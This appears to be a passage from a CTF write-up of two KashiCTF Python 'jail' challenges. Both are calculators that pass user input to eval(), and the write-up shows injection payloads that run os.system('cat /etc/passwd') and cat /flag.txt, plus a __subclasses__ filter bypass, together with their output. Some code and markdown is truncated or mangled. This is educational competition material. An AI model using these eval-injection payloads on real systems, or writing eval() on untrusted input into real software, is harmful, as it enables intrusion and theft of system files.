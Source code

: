 Flag: `KashiCTF{KedA5hKr0f7}`

## **Miscellaneous**

### **Easy Jail**

I made this calculator. I have a feeling that it's not safe :(

Given: `Instance` + `challenge.zip`

```python
def calc(op):
        try :
                res = eval(op)
        except :
                return print("Wrong operation")
        return print(f"{op} --> {res}")

def main():
        while True :
                inp = input(">> ")
                calc(inp
```

A very obvious `eval()` has been given, and objective is inject commands to read the flag.

```python
>> __import__('os').system('cat /etc/passwd')
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologi
```

Payload: **`import**('os').system('cat /flag.txt')`

### **Easy Jail 2**

I made a completely secure calculator this time.

Given: same as above

Upgraded jail here, just need to bypass the filters in order to inject.

```python
└─$ nc kashictf.iitbhucybersec.in 59824
           _            _       _
          | |          | |     | |
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|
>> print("".__class__.__mro__[1].__subclasses__()[129].__subclasses__()[2].__subclasses__()[0]("/etc/passwd").read())
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\
nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:
4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:
```
